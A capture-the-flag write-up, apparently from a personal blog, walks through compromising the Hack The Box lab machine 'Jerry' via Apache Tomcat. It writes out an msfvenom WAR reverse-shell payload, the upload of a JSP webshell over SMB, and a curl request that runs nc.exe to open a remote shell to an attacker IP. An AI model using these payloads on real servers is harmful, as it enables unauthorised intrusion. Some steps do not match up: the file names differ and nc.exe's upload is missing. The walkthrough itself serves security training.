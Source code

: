 ```yaml
---
layout: single
title: Jerry - Hack The Box
excerpt: "Jerry is an easy-difficulty Windows machine that showcases how to exploit Apache Tomcat, leading to an 'NT Authority\\SYSTEM` shell, thus fully compromising the target."
date: 2025-05-26
classes: wide
header:
  teaser: /img2/jerry.PNG
  teaser_home_page: true
  icon: /img2/images/hackthebox.webp
categories:
  - hackthebox
  - Windows
  - Easy
tags:
  - Information Leakage
  - Abusing Tomcat [Intrusion & Privilege Escalation]
---
```



## Reconnaissance

- Nmap

```bash
nmap -sS --open -p- --min-rate 5000 -vvv -n -Pn 10.10.10.95
```

![](/img2/Pasted%20image%2020250522153018.png)

- Gobuster

```bash
gobuster dir -u http://10.10.10.95:8080/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

![](/img2/Pasted%20image%2020250522164149.png)

- Leaked credentials

![](/img2/Pasted%20image%2020250522164224.png)

## Exploitation

- Upload .war reverse shell

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=9000 -f war > shell.war
```

![](/img2/Pasted%20image%2020250522164341.png)

```bash
rlwrap nc -nlvp 9000
```

## Post-exploitation

- Apache Tomcat WebShell Privilege Scalation

```bash
searchsploit Tomcat Privilege Scalation
```

![](/img2/Pasted%20image%2020250526102938.png)

```bash
searchsploit -m windows/local/7264.txt
```

```bash
mv 7264.txt 7264.jsp
```

```bash
impacket-smbserver smb -smb $(pwd) -smb2support
```

- Change to web directory

```cmd
cd C:\apache-tomcat-7.0.88\webapps\ROOT
```

```cmd
copy \\10.10.16.7\smb\7264.jsp
```

- Send Reverse Shell

```bash
curl http://10.10.10.95:8080/cmd.jsp?cmd=C%3A%5CWindows%5CTemp%5Cnc.exe%2010.10.16.7%204444%20-e%20cmd.exe
```

```bash
rlwrap nc -nvlp 4444
```

- View flags file

```cmd
type 2*
```

![](/img2/Pasted%20image%2020250526103600.png)

![](/img2/Pasted%20image%2020250526103906.png)